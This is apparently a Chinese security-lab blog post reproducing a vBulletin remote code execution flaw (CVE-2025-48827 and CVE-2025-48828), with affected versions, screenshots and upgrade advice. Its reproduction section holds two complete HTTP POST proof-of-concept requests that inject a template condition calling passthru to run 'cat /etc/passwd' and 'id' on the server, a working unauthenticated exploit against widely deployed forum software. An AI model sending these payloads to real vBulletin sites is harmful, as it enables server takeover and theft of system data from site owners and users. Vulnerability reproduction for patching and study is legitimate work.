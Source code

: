 #  【成功复现】vBulletin远程代码执行漏洞(CVE-2025-48827&CVE-2025-48828)  
原创 弥天安全实验室  弥天安全实验室   2025-06-08 00:01  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPicbicibWgnNxvOJLOkYjFVL6VjyRyVDkSnB9xHOianBSZYWZB2SNdBxjpg/640?wx_fmt=png&from=appmsg "")  
  
  
Internet Brands vBulletin是Internet Brands公司的一个论坛插件。  
vBulletin是一款功能强大的开源论坛软件，它支持多种数据库，如MySQL、PostgreSQL等。它提供了灵活的权限管理系统，让管理员可以精细控制不同用户组和用户的访问权限和功能使用，适用于各种规模的在线社区。  
  
Internet Brands vBulletin 5.0.0至5.7.5版本和6.0.0至6.0.3版本存在安全漏洞，该漏洞源于未经身份验证的用户可能调用受保护的API控制器方法。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
5.0.0 <= vBulletin < 5.7.6   
  
5.1.0<=vBulletin<=6.0.3  
  
6.0.0 <= vBulletin < 6.0.4  
  
  
CVE-2025-48827  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPROfy2WOcSJxxHX34GxOkk2KnqszOKpWicoiaYibcLjBnTT0icSjOj8WA3w/640?wx_fmt=png&from=appmsg "")  
  
CVE-2025-48828  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPsFCibZC7eQLatRZOp0NgSAscibMz4qw1GlWIjZ7on4jsJdM7K6tmjRKw/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPiap3dLtQlkSxce5xtaUZTUGcBPA5UorJpOE7u2F0VdgN8xSzYdlichpA/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
  
请求1  
```
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=htchn&template=<vb:if condition='"passthru"("cat+/etc/passwd")'></vb:if>
```  
  
  请求2  
```
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=htchn&template=<vb:if condition='"passthru"("id")'></vb:if>     
```  
  
        通过php代码执行cat /etc/passwd，查看响应判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXP6sCfu0icmaf0fyu7KFGvnZrdAOK66yUwlpjUmk1gic5mYu18SeIwvZag/640?wx_fmt=png&from=appmsg "")  
  
  
       通过php代码执行id，查看响应判断漏洞存在  
  
         
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPvuUkYm3PQDHmtIKuNVnpCM4SpeVMxibh6CicA36YskZQN77PQWueDJnw/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPALlkYg9AGqibOL4ibEpo24jjUhwtDmDM61iacM0r9yK2sH2gKG9uUtYKA/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
通过访问vBulletin的AJAX API并尝试调用受保护的方法来验证漏洞，或检查版本是否在受影响范围内。  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       
```
https://www.vbulletin.com/download.php
https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce
```  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
